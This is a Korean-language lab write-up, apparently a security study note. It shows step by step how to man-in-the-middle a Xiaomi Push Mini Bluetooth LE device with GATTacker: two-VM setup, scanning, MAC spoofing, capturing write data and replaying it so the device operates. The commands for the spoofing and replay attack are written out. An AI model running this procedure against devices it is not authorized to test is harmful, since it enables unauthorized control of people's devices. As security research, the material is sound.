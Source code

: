 # Gattacker MITM (Push Mini)

Created: 2022년 6월 19일 오후 3:34
Tags: bluetooth

## 1. 제품 정보

제조사 : Push Mini

지원 통신 모듈 : Bluetooth

## 2. blteJuice MITM 공격

### 환경구축

- AttifyOS v3.0 on VM (Slave용, Host용)
- Miaomi Push Mini (BlueTooth)
- BLE USB Dongle (CRS8510 V4.0) 2개
- VMware 설정
    
    Virtual Machine Settings → USB Controller
    
    Share Bluetooth devices with the virtual machine 체크 해제
    
    ![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled.png)
    

### 사전 설치작업 (Slave, Host)

<aside>
💡 [AttifyBlog - GATTacker](https://blog.attify.com/hacking-bluetooth-low-energy/) 링크

</aside>

[D2T3 - Slawomir Jasek - Blue Picking - Hacking Bluetooth Smart Locks.pdf](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/D2T3_-_Slawomir_Jasek_-_Blue_Picking_-_Hacking_Bluetooth_Smart_Locks.pdf)

1 **단계 :** node 및 npm을 설치합니다.

```bash
# sudo apt-get install bluetooth bluez libbluetooth-dev libudev-dev
```

2 **단계 :**  bleno와 noble을 설치합니다.

```bash
# npm install bleno
# npm install noble
```

3 **단계 :**  Gattacker를 설치합니다.

```bash
# npm install gattacker
```

4 **단계 :** 가상머신은 Slave용, Host용 두 가지가 필요하므로, 다른 가상머신에도 동일한 단계를 반복하여 위와 같이 필요한 파일들을 설치해줍니다.

5 **단계 :** 완료되면 Bluetooth Dongle을 연결하고 sudo hciconfig 명령어를 통해 연결한 장치가 잘 잡히는지 확인합니다. 추가 단계를 위해 gattacker 폴더로 이동합니다.

```bash

# sudo hciconfig 
# cd node_modules/gattacker
```

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%201.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%201.png)

6 **단계 :**  gattacker 구성을 위해  config.env 파일을 편집해야합니다.

```bash
# gedit config.env
```

7 **단계 :**  NOBLE_HCI_DEVICE_ID 주석을 해제하고 Bluetooth Dongle이 인식된 hciX(X : 번호) 값을 설정하여 저장합니다.

![Slave 가상머신 구성](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%202.png)

Slave 가상머신 구성

 - 추가로 Slave 가상 머신의 IP 주소를 확인합니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%203.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%203.png)

**8 단계 :** 이제 Host 가상 머신에서 Bluetooth Dongle을 연결하고 위 단계를 수행합니다. 그리고 config.env 파일을 아래와 같이 설정합니다.

완료되면 `WS_SLAVE`에서 이미지와 같이 슬레이브 머신의 IP 주소로 바꿉니다.

- 주석 해제 `BLENO_HCI_DEVICE_ID`
- 주석 해제 `NOBLE_HCI_DEVICE_ID`

`hciX`값에 할당합니다.

완료되면 `WS_SLAVE`에서 이미지와 같이 슬레이브 머신의 IP 주소로 바꿉니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%204.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%204.png)

Host 가상 머신의 구성이 완료되면 config.env 파일을 저장합니다. 이제 Gattacker를 사용하여 일부 IoT 장비를 활용한 준비가 완료되었습니다.

### **Gattacker를 사용하여 장치 정보를 스캔하고 저장 :**

**수행 할 단계**

**1 단계 :** Slave 가상머신을 열고 `ws-slave.js`아래와 같이 시작 합니다.

```bash
# sudo node ws-slave.js
```

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%205.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%205.png)

**2 단계 :** 이제 Host 가상머신에서 gattacker 폴더로 이동하고 아래와 같이 스캔을 시작합니다.

```bash
# sudo node scan.js // 스캔 명령
```

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%206.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%206.png)

스캔을 시작하면 주변 Bluetooth 통신을 하는 장비들이 보낸 advertise 값을 통해 장비들이 스캔되고 해당 데이터(advertise)는 /node_modules/gattacker/devices/ 디렉토리 내에 저장됩니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%207.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%207.png)

이제 Mini Push의 서비스를 저장해 봅니다.

```bash
# sudo node scan d7712e66a634
```

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%208.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%208.png)

 - Mini Push의 advertise, service 데이터가 저장되었는지 확인합니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%209.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%209.png)

 - Mini Push의 advertise 데이터를 확인합니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2010.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2010.png)

 - Mini Push의 service 데이터를 확인합니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2011.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2011.png)

### **gattacker를 사용하여 정보 덤프 및 재생 :**

**수행 할 단계**

**1 단계 :** `MAC Spoofing`진행을 위해 컴파일 진행 및 `bdaddr` 실행 파일을 생성하고 path를 설정합니다.

```bash
# sudo make 
# sudo cp bdaddr /usr/local/sbin/
```

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2012.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2012.png)

**2 단계 :** `MAC Spoofing` 을 수행한다.

```bash
# sudo ./mac_adv -a [devices/advertise-data] -s [devices/service-data]
# sudo ./mac_adv -a devices/d7712e66a634_CLPM-G03.adv.json -s devices/d7712e66a634.srv.json
```

 

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2013.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2013.png)

**3 단계 :** 이제 휴대폰에서 Xiaomi - MiniBig 앱을 열고 장치를 검색 및 기능을 수행합니다.

**4 단계 :** 이제 장치에 연결하고 호스트 컴퓨터에서 다음과 같이 시각화 할 수 있고, Push Mini 사용 시 Write data 값을 확인할 수 있습니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2014.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2014.png)

이제 **ctrl + c로** 종료하십시오.

**5 단계 :** 이제 덤프 폴더로 이동하여 저장된 덤프 데이터를 확인합니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2015.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2015.png)

**6 단계 :** Replay Attack을 하기 위해 Write Data 를 제외한 영역에 대해서는 삭제하고 저장합니다.

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2016.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2016.png)

**7 단계 :** Replay Attack(재생공격) 을 아래 명령어를 이용하여 수행합니다.

```bash
# nodereplay.js -i dump/d7712e66a634.log  -p d7712e66a634 -s devices/d7712e66a634.srv.json
```

![Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2017.png](Gattacker%20MITM%20(Push%20Mini)%20057c741ff59b46bcab0bde0f7c751235/Untitled%2017.png)

해당 명령을 수행 시 Replay Attack(재생공격)이 수행되며, Push Mini 장비가 작동합니다.